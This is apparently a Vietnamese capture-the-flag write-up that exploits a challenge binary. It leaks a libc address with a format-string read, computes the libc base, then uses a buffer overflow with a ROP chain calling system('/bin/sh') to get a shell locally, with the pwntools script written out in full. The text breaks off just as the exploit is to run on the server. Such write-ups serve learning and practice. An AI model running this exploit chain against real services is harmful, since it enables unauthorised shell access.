 ### KHAI THÁC
- Thực hiện kiểm tra các phương pháp bảo mật của chương trình:
![{1A6C5D96-60A8-4019-AD9B-F050324157A0}](https://hackmd.io/_uploads/BJgldzfjqyl.png)
> Stack không có canary: ta có thể overflow được.
> No PIE: địa chỉ tĩnh, có thể gọi các hàm.
- Ta tiến hành bước đầu tiên là leak địa chỉ libc.
> Ta khảo sát stack trước khi lần nhập đầu tiên được thực hiện ở hàm troll để xem có tồn tại địa chỉ libc nào để ta leak hay không:
![{F020311B-2662-4A0D-8A78-947E66BF9BF8}](https://hackmd.io/_uploads/SkKOpfs5yx.png)
> Ta thấy rằng trên stack tại rbp+0xd8 đang tồn tại một địa chỉ libc_start_main và ta sẽ tiến hành tính toán để leak được địa chỉ này ra:
> Sử dụng format %p với padding tính toán được là 0x25 ta có script leak địa chỉ libc trên ra:
> ```
> sla(b'What do you want? ',f'%37$p'.encode())
> ```
> Ta cho chạy thử script và địa chỉ trên được leak ra:
> ![{8E3DCCE5-3852-43BB-9BBF-30168AFF9423}](https://hackmd.io/_uploads/BJgvAMjcJe.png)
> Ta tiến hành cho nhận địa chỉ trên vào và tính toán offset đến địa chỉ base. Từ đó ta sẽ bổ sung script để in ra màn hình 2 địa chỉ được leak và base của libc:
> ```
> sla(b'What do you want? ',f'%37$p'.encode())
>
> p.recvuntil(b'giving you ')
> leak= int(p.recvline(),16)
> libc.address = leak - 0x27305
> info("Libc leak = "+hex(leak))
> info("Libc base = "+hex(libc.address))
>```
>![{6130227C-63AC-4A11-AF99-71E5E7CB828B}](https://hackmd.io/_uploads/S1EgyQj9kl.png)
> Để kiểm tra ta sẽ lấy địa chỉ base được tính toán để so với địa chỉ libc base thông qua GDB:
> ![{96B1BF90-CF4F-4650-808D-EFD4C1E60F69}](https://hackmd.io/_uploads/BJA8kXsqyl.png)
> Vậy hiệu giữa địa chỉ được leak và tính toán với địa chỉ base bằng 0 (trùng khớp).
- Sau khi có được địa chỉ gốc của libc, ta tiến hành sử dụng sử dụng lỗ hỏng Buffer Overflow để điều khiển chương trình chạy lệnh system("/bin/sh"). Và ta sẽ hướng đến việc dùng các gadget để điều khiển thanh ghi rdi và gọi hàm system.
> Với địa chỉ libc base, công việc của ta hiện tại chỉ là tìm các offset của gadget pop rdi, ret thông qua việc sử dụng ropper trên chính file libc.so.6:
> ![{73D85BD0-68D3-4D43-B96D-B9D8FAFF1AC3}](https://hackmd.io/_uploads/rko7-msc1x.png)
>  ![{FF184802-3D5F-4F4D-9C8A-A82791912F56}](https://hackmd.io/_uploads/rkGrbQickg.png)
> Vậy ta đã tìm thấy được offset của 2 gadget cần thiết và ta chỉ cần áp dụng vào script nữa là xong:
> ```
> sla(b'What do you want? ',f'%37$p'.encode())
>
> p.recvuntil(b'giving you ')
> leak= int(p.recvline(),16)
> libc.address = leak - 0x27305
> info("Libc leak = "+hex(leak))
> info("Libc base = "+hex(libc.address))
> 
> ret = libc.address + 0x00000000000f655f
> prdi = libc.address + 0x00000000000277e5
> prsi = libc.address + 0x0000000000028f99
> payload = b'a'*40 + p64(ret)+ p64(prdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system)
> sla(b'Wanna Cry about that? ',payload)
> ```
- Ta tiến hành chạy script:
![{7CF914E9-2D92-4789-BA2A-2FC8C04D41CD}](https://hackmd.io/_uploads/ByLC-Qjq1x.png)
- Vậy khi chạy local thì ta đã lấy được shell.
- Ta tiến hành chạy trên server: